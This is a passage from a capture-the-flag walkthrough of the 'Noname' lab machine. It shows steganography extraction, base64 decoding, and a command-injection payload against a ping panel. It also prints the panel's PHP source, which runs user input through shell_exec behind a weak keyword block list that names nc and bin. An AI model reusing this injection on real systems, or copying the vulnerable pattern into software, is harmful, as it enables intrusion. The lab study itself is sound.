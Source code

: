 ```

2022-10-14 00:11:14 (392 KB/s) - ‘Short.png’ saved [1019381/1019381]
                                                              
```

Now we have downloaded all the images in the webpage, let's use steghide to extract hidden contents.

![image](https://user-images.githubusercontent.com/87468669/195767542-b063bc85-14b4-4893-be84-b96206a720a3.png)

command used `steghide extract -sf haclabs.jpeg` using the passphrase: "harder", we got the hidden file "imp.txt" that is in the image. Let's check the content of imp.txt.

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/Documents/PG/Noname]
└─$ cat imp.txt      
c3VwZXJhZG1pbi5waHA=
                                                                                                                                                                      
┌──(n16hth4wk㉿n16hthawk-sec)-[~/Documents/PG/Noname]
└─$ echo "c3VwZXJhZG1pbi5waHA=" | base64 -d                
superadmin.php                                                                                                                                             
```

The content of imp.txt was a base64 encoding and it was dcoded to `superadmin.php` now let's check this on the page.

![image](https://user-images.githubusercontent.com/87468669/195768149-de9b5a79-9613-4836-9a75-dc76156b207f.png)

nice we got a ping command panel, let's try ping 127.0.0.1.

![image](https://user-images.githubusercontent.com/87468669/195768265-470e3f2a-d5aa-4d32-881c-ca5a6ee052c7.png)

we got a response, let's test for command injection.

![image](https://user-images.githubusercontent.com/87468669/195768438-de374946-ae1a-4157-996d-88837e89a12a.png)

we have command injection. let's try inject a revserse shell. tried differnt reverse shell payload none worked, let's check the source code for the superadmin.php to see what is happening. `127.0.0.1 | cat superadmin.php`

![image](https://user-images.githubusercontent.com/87468669/195769280-abd7f23a-1626-47fe-8782-6d36ef10690b.png)

source code:

```
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```